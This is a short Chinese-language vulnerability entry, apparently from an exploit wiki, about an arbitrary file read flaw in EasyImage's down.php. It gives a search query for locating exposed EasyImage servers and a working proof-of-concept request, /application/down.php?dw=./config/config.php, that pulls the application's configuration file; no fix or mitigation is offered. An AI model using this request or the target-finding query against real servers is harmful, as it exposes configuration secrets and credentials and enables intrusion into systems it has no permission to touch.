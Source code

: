 # EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba.png)

验证POC

```plain
/application/down.php?dw=./config/config.php
```

![img](/assets/PeiQi-Wiki/img/1678874587131-e65d3f26-f9b1-4ada-9885-527a8627644b.png)